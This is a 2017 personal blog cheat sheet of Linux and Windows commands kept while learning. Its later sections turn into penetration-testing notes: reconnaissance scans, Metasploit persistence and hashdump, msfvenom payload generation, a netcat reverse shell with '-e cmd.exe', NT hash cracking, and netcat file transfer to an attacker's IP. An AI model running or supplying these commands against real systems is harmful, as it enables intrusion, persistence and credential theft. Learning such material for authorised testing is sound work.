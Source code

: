 ```yaml
---
layout: post
title: "Basics Cheat Sheet"
date: 2017-09-05
---
```

<p>
Here is a formatted list of basic commands. I used these as I was learning how to get my way around and added to the list as I learned new things. Writing them down helped me remember the syntax.
</p>
<h2> Get Help … and other info</h2>
<ul>
<strong>
	<li><code>C:\> <command> /? </code></li>
	<li><code>root@kl~# <command> -h </code></li>
	<li><code>root@kl~# <command> --help </code></li>
	<li><code>root@kl~# man <command> </code></li>
	<li><code>root@kl~# apropos </code></li>
	<li><code>root@kl~# history </code></li>
	<li><code>root@kl~# hostname</code></li>
	<li><code>root@kl~# sudo </code></li>
	<li><code>root@kl~# whoami </code></li>
</strong>
		<ul>
		<li>(print current user id and name)</li>	
		</ul>
<strong>
	<li><code>root@kl~# date </code></li> 
	<li><code>C:\>  chdir </code></li>
</strong>
		<ul>
		<li>(displays location)</li>
		</ul>
<strong>
	<li><code>root@kl~# pwd </code></li>
</strong>
		<ul>
		<li>(displays location)</li>
		</ul>
</ul>

<h2>Processes and Things</h2>
<ul>
<strong>
	<li><code>root@kl~# jobs </code></li>
</strong>
		<ul>
		<li>(list cronjobs)</li>
		</ul>
<strong>
	<li><code>root@kl~# kill </code></li>
</strong>
		<ul>
		<li>(stop processes)</li>
		</ul>
<strong>
	<li><code>root@kl~# pkill </code></li>
</strong>
		<ul>
		<li>(stop processes)</li>
		</ul>
<strong>	
	<li><code> root@kl~# ps –aef </code></li>
</strong>
		<ul>
			<li>(list processes status)</li>
		</ul>
<strong>
	<li><code>C:\ tasklist </code></li>
<strong>
</ul>

<h6>Files</h6>
root@kl~# cp <src> <dst> (copy)
C:\> copy <src> <dst>
root@kl~# clear
C:\> cls
C:\> dir
root@kl~# echo <message>
(print to screen)
root@kl~# find –iname <file>
C:\> findstr /i /s <string> *.txt
(like grep for Windows)
root@kl~# file
(determine file type)
C:\> dir \ <file> /b /s
root@kl~# grep
(search files for matching text)
root@kl~# gzip
(compress or decompress files)
root@kl~# less 
(display output one screen at a time)
root@kl~# locate
root@kl~# ls
root@kl~# mkdir 
(new directory)
root@kl~# mv <src><dst> (move/rename a file)
C:\>  move <src> <dst>
root@kl~# rm (remove files)
C:\> ren (renames file)
root@kl~# umask 
(users file creation mask)
root@kl~# uniq 
(uniquify files)
root@kl~# vi/vim 
(the best text editor)
root@kl~# wc 
(print byte, word and line counts)
root@kl~# whereis 
(search $path, man pages and source files for program)
Users
root@kl~# chgrp 
(change group ownership)	
root@kl~# chmod 
(change access permissions) 
root@kl~# chown 
(change file owner and group)
root@kl~# groupadd 
(add a user to a security group)
root@kl~# passwd 
(modify user password)
root@kl~# useradd 
(create new users)
root@kl~# usermod 
(modify user account)
root@kl~# users 
(list logged in users)
Networks
root@kl~# curl (grab webpages)
root@kl~# dig (DNS lookup)
root@kl~# ifconfig
root@kl~# netstat -ano/-plant/-uplant
(networking connections)
root@kl~# nslookup
 (query name servers)
root@kl~# ping
root@kl~# ssh
root@kl~# traceroute
root@kl~# wget 
(get web pages or files)
 
 
Reconnaissance
Discover target’s IP/FQDN domain
nslookup <domain>
nslookup <ip>
Find nameserver for known domain
	root@kl~# dig <domain>
perform a zone transfer to list hosts w/in domain
	root@kl~# dig axfr @<name server> <domain>
determine route to a host
	root@kl~# traceroute <ip>
	C:\> tracert <ip
scan for services and operating system
	root@kl~# nmap –sV –O <ip> 
scan for vulns
	root@kl~# nmap --script=vulns <ip>
Gain and Maintain
establish ssh connection
	root@kl~# ssh <user>@<ip>
remote desktop (rdesktop is port 3389 and vncviewer is 5900)
	rdesktop -u <username> -p <password> <ip>
	vncviewer <ip>
favorites from the msf console
	search <keyword>
	info <module> 
	use <module>
	show options (shows you what to fill in)
	show payloads (shows payloads associated with the exploit you loaded)
	background (use to background sessions)
	pwd vs lpwd & cd vs lcd
	sessions –i <#>  (to interact with sessions)
	run persistence –h 
	run persistence –A –r <your ip> -p <port> -i 10 (call back every 10 seconds if connection is lost)
	hashdump
add a route in msf
	route add <victim subnet> <subnet mask> <session#>
	route print
make a msfvenom payload for windows executable
	root@kl~# msfvenom –p <payload> lhost=<ip> lport=<port> -f exe –i 2 > <file>.exe
	root@kl~# msfvenom –l encoders (for list of encoders)
	set up a listener in metasploit
		use exploit/multi/handler
		set payload
		set ExitOnSession false
		exploit –j (run as a job)
netcat backdoor
	root@kl~# nc –l –p <port> (on launch platform)
	C:\> start nc <launch ip> <port> -e cmd.exe
Escalate and Propagate
get passwords using meterpreter or shell (/etc/shadow or hashdump)
use john to crack NT hashes – remember to add special words you find to the password list in john
	root@kl~# ./john <file> --format=nt
transfer files with netcat
	root@kl~#  nc –l –p <port> > <file> (on your platform to listen for file)
	C:\> nc.exe <your ip> <port>  <  <file to transfer>
transfer files with python
	python –m SimpleHTTPServer <port>
